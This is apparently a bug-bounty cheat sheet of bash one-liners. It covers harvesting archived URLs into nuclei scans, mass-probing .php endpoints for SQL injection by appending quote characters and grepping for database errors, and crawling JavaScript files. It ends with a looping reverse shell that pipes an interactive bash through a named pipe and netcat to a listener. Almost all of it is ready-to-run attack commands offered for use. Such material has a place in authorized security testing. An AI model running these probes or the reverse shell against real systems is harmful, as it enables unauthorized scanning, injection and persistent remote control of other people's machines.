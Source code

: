 ## Simple 1Line #BASH For #BugBounty.

```waybackurls TARGET.COM | grep = | tee urls.txt | nuclei -dast```

```gau TARGET.COM | grep = | tee urls.txt | nuclei -dast```


## 1Line BASH To Perform #SQL_Injection For BugBounties.

```cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mVulnerable to SQLI Injection\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done```


## LazyEgg - Hunting JS Files.

```waybackurls target | grep '\.js$' | awk -F '?' '{print $1}' | sort -u | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && python lazyegg[.]py "{}" --js_urls --domains --ips'```


## Reverse Shell Bash Loop.

```while true; do sleep 5 && mknod /dev/shm/p p; cat /dev/shm/p | /bin/bash -i | nc 127.0.0.1 9001 >/dev/shm/p; done```
